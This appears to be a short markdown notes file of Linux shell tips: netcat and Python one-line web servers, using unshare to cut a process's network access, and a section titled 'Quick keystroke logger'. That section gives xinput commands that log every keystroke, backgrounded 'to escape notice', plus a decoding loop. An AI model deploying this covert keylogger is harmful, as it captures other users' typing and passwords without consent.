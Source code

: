 ## Quick keystroke logger

```bash
xinput --list # then get id of keyboard
xinput --test $kybd_id > keystrokes.log & # send job to bg to escape notice
```
This works for keystrokes on any window, not just the terminal in question.

To decode the logfile:

```bash
while read -r line; do
	grep -oP '[a-zA-Z\s]+' <<< "$line" | tr '\n' '\0'
	n=$(grep -oP '\d+' <<< "$line")
	xmodmap -pke | grep -P "keycode\s+${n} =" | sed 's/keycode\s\+[0-9]\+ = //' || echo $n 
done < keystrokes.log
```

## Disable network access for a process

`unshare -n <program> ...`

## Quick webserver

### Python

```bash
python2 -m SimpleHTTPServer # Python 2
python3 -m http.server      # Python 3
```
Starts a file-serving webserver in the current directory bound to `0.0.0.0:8000`

### Netcat
```bash
{ echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat some.file; } | nc -l -p 8080
{ echo -ne "HTTP/1.0 200 OK\r\nContent-Length: $(wc -c <some.file)\r\n\r\n"; cat some.file; } | nc -l -p 8080
```
Serves up just the specified file(s).
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTQxNDg5NTY4OCwtNjMzMDM3NjAzXX0=
-->